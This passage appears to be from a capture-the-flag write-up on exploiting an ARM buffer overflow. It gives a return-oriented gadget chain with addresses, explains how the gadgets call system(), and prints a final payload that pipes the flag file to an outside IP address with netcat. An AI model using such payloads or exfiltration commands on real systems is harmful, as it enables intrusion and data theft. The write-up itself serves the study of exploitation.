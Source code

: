 I then came up with the following gadget chain at ALSR offset 32:
```python
SYSTEM  = 0x76abd258 #                                                            SYSTEM # 0x76eb0258 
JMP1    = 0x76afca50 #['0x76afca50', 'pop {r4, pc}; ldr r0, [r0, #0x64]; bx lr;']   JMP2 # 0x76ee0824
JMP2    = 0x76aed824 #['0x76aed824', 'add r0, sp, #0x10; blx r4;']                  JMP1 # 0x76ed3f0c
```

The `JMP2` gadget allows to move the stackpointer `sp` into `r0`. The `JMP1` gadget is used to move the `system` address into `r4`. In combination, this will allow us to call `system(<command on stack>)`.


The final paylod looks like this:
```python
payload  = b"A"*136 # buffer
payload += b"aaaa"  # r7
payload += p32(JMP1)
payload += p32(SYSTEM)
payload += p32(JMP2)
payload += b"B"*16
payload += b"cat /flag | nc 167.71.33.163 1"
```

Finally, I just had to run the exploit in a loop until my desired ASLR offset appeared. See [exploit.py](exploit.py) for the full exploit script.

Congrats to the 6 teams that solved the challenge!
